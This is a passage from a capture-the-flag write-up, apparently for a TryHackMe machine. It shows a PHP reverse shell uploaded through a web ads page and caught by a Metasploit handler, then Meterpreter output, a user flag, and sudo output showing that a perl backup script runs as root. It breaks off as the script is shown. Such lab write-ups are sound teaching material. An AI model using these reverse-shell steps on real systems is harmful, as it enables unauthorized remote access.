 [*] Started reverse TCP <span class="hljs-keyword">handler</span> on <span class="hljs-number">10.13</span><span class="hljs-number">.0</span><span class="hljs-number">.39</span>:4444
</code></pre><p>I then take the contents of the shell.php generated before and paste it at the following url</p>
<pre><code><span class="hljs-symbol">http:</span>/<span class="hljs-regexp">/10.10.198.128/content</span><span class="hljs-regexp">/as/</span>?<span class="hljs-keyword">type</span>=ad
</code></pre><p><img src="https://github.com/paRaade/CTF-Writeups/assets/126734769/154f22b3-204e-4e20-84f3-9ba297d8d3e6" alt="Pasted image 20240125182510"></p>
<p>The php reverse shell is accessible at the following url. Once clicked on metasploit will catch the shell and I will now have remote access to the target machine</p>
<pre><code>http:<span class="hljs-regexp">//</span><span class="hljs-number">10.10</span>.<span class="hljs-number">198.128</span><span class="hljs-regexp">/content/i</span>nc<span class="hljs-regexp">/ads/</span>
</code></pre><p><img src="https://github.com/paRaade/CTF-Writeups/assets/126734769/7383d701-2062-4c8e-aaed-c12ad968d4a4" alt="Pasted image 20240125182623"></p>
<hr>
<p><strong>Initial Foothold</strong> </p>
<p>The user.txt flag can be found in the /home/itguy directory</p>
<pre><code>[<span class="hljs-strong">*] Meterpreter session 1 opened (10.13.0.39:4444 -&gt; 10.10.198.128:58946) at 2024-01-25 18:26:27 -0500
meterpreter &gt; getuid
Server username: www-data

</span>meterpreter &gt; ls /home
<span class="hljs-section">Listing: /home
==============</span>

Mode              Size  Type  Last modified              Name
<span class="hljs-bullet">----              </span>----  ----  -------------              ----
040755/rwxr-xr-x  4096  dir   2019-11-30 10:07:45 -0500  itguy

meterpreter &gt; cd /home/itguy
The user flag is here

meterpreter &gt; cd /home/itguy
meterpreter &gt; cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
</code></pre><hr>
<p><strong>Privilege Escalation</strong></p>
<p>The user www-data has root privileges to run perl and run a script called backup. pl</p>
<pre><code>meterpreter &gt; shell
Process <span class="hljs-number">2899</span> created.
Channel <span class="hljs-number">2</span> created.
sudo -l
Matching Defaults entries <span class="hljs-keyword">for</span> www-data on THM-<span class="hljs-symbol">Chal:</span>
    env_reset, mail_badpass, secure_path=<span class="hljs-regexp">/usr/local</span><span class="hljs-regexp">/sbin\:/usr</span><span class="hljs-regexp">/local/bin</span>\<span class="hljs-symbol">:/usr/sbin</span>\<span class="hljs-symbol">:/usr/bin</span>\<span class="hljs-symbol">:/sbin</span>\<span class="hljs-symbol">:/bin</span>\<span class="hljs-symbol">:/snap/bin</span>

User www-data may run the following commands on THM-<span class="hljs-symbol">Chal:</span>
    (ALL) <span class="hljs-symbol">NOPASSWD:</span> /usr/bin/perl /home/itguy/backup.pl
</code></pre><hr>
<p><strong>backup. pl</strong></p>
<p>The backup. pl file is a perl script that executes a shell script</p>
<pre><code>cat /home/itguy/backup.pl
<span class="hljs-meta">#!/usr/bin/perl</span>
